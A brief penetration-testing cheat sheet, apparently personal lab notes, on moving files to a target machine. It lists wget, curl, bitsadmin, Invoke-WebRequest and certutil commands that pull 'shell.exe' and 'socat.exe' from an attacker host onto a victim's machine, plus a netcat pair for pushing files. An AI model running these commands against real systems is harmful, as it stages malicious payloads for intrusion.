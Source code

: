 ```yaml
---
icon: arrow-down-up-across-line
---
```


# file transfer between two machines

if you have the target password, use scp (linux only)

you can use python http server and download via wget or curl on linux:

`wget url -O output`

`curl -o output_filename http://example.com/file.txt`

and on windows:

`bitsadmin /transfer myDownloadJob /download /priority normal http://[LOCAL-IP]:[LOCAL-PORT]/shell.exe C:\Users\bill\shell.exe`

`Invoke-WebRequest -uri [LOCAL-IP]/socat.exe -outfile C:\\Windows\temp\socat.exe`

`certutil -urlcache -split -f http://[LOCAL-IP]:[LOCAL-PORT]/shell.exe C:\Users\bill\shell.exe`

or this:

listen on the target machine: `nc -vlp [port] > file`

then send the file from the other one: `nc -n [target ip] [port] < root.service`
